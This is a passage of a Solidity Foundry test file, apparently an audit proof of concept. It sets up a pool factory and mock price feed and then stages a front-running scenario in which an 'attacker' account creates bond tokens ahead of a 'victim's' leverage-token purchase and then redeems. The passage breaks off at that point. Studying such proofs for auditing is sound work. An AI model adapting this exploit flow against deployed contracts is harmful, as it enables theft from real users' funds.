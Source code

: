 ```solidity
    poolFactory.grantRole(poolFactory.SECURITY_COUNCIL_ROLE(), securityCouncil);
    vm.stopPrank();
  }

  function useMockPool(address poolAddress) public {
    // Deploy the mock pool
    MockPool mockPool = new MockPool();

    // Use vm.etch to deploy the mock contract at the specific address
    vm.etch(poolAddress, address(mockPool).code);
  }

  function setEthPrice(uint256 price) public {
    mockPriceFeed = MockPriceFeed(ethPriceFeed);
    mockPriceFeed.setMockPrice(int256(price), uint8(CHAINLINK_DECIMAL));
  }

  function resetReentrancy(address contractAddress) public {
    // Reset `_status` to allow the next call
    vm.store(
      contractAddress,
      bytes32(0x9b779b17422d0df92223018b32b4d1fa46e071723d6817e2486d003becc55f00), // Storage slot for `_status`
      bytes32(uint256(1))  // Reset to `_NOT_ENTERED`
    );
  }

  function testCreateDeadlineExactSuccess() public {
    vm.startPrank(governance);
    Token rToken = Token(params.reserveToken);
    // Mint reserve tokens
    rToken.mint(governance, 10000002000);
    rToken.approve(address(poolFactory), 100);

    // Create pool and approve deposit amount
    Pool _pool = Pool(poolFactory.createPool(params, 100, 10000, 10000, "", "", "", "", false));
    rToken.mint(user, 2000); // user1 2000 reserveToken
    rToken.mint(user2, 2000000); // user2 2000000 reserveToken
    uint256 startBondBalance1 = BondToken(_pool.bondToken()).balanceOf(user);
    console.logUint(startBondBalance1);
    uint256 startBondBalance2 = BondToken(_pool.bondToken()).balanceOf(user2);
    console.logUint(startBondBalance2);
    vm.stopPrank();
    // attacker transaction,front-run 
    vm.startPrank(user);
    rToken.approve(address(_pool), 1000);
    uint256 amount = _pool.create(Pool.TokenType.BOND, 1000, 0);
    console.logUint(amount);
    assertEq(amount>=0, true);


    vm.stopPrank();

    vm.startPrank(user2);
    // victim transaction
    rToken.approve(address(_pool), 1000000);
    uint256 amount_lev_2 = _pool.create(Pool.TokenType.LEVERAGE, 1000000, 0, block.timestamp, governance);
    console.logUint(amount_lev_2);
    vm.stopPrank();

    vm.startPrank(user);
    uint256 after_redeem  = _pool.redeem(Pool.TokenType.BOND, 125000, 0);
```